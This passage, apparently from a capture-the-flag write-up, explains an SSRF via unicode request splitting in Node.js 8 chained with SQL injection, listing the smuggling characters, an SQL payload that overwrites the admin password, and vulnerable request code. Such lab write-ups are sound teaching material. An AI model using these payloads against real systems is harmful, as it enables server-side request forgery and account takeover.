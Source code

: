 _Note: This behavior is fixed in Node.js version 10. But for Node.js versions 8 or lower, any server that makes outgoing HTTP requests may be vulnerable to an SSRF via request splitting if it:_

*   _Accepts unicode data from from user input, and_
*   _Includes that input in the request path of an outgoing HTTP request, and_
*   _The request has a zero-length body (such as a GET or DELETE)._

#### Useful characters for this vulnerability

```text-plain
space = '\u0120'
\r+\n = '\u010D\u010A'
```

Now, we know we can split the HTTP request into different HTTP requests, hence conducting an SSRF attack to submit a POST request to `/register`. So, we only need to generate our proof of concept now.

SQL Injection to modify admin's password
----------------------------------------

This is the original SQL query for user registration (vulnerable to SQLi):

```text-plain
INSERT INTO users (username, password) VALUES ('${user}', '${pass}')
```

Forge a malicious SQL query (the injection point is the password field in `/register`):

```text-plain
doesntmatter') ON CONFLICT(username) DO UPDATE SET password ='admin';--

# which makes this happen
INSERT INTO users (username, password) VALUES ('${user}', 'doesntmatter') ON CONFLICT(username) DO UPDATE SET password ='admin';--')
```

Building PoC for SSRF via Request Splitting 
--------------------------------------------

Looking at the previous `getWeather()` function and `HTTPHelper.js`:

```text-plain
// getWeather()
let weatherData = await HttpHelper.HttpGet(`http://${endpoint}/data/2.5/weather?q=${city},${country}&units=metric&appid=${apiKey}`);


// HTTPHelper.js
const http = require('http');

module.exports = {
	HttpGet(url) {
		return new Promise((resolve, reject) => {
			http.get(url, res => {
				let body = '';
				res.on('data', chunk => body += chunk);
				res.on('end', () => {
					try {
						resolve(JSON.parse(body));
					} catch(e) {
						resolve(false);
					}
				});
			}).on('error', reject);
		});
	}
}
```
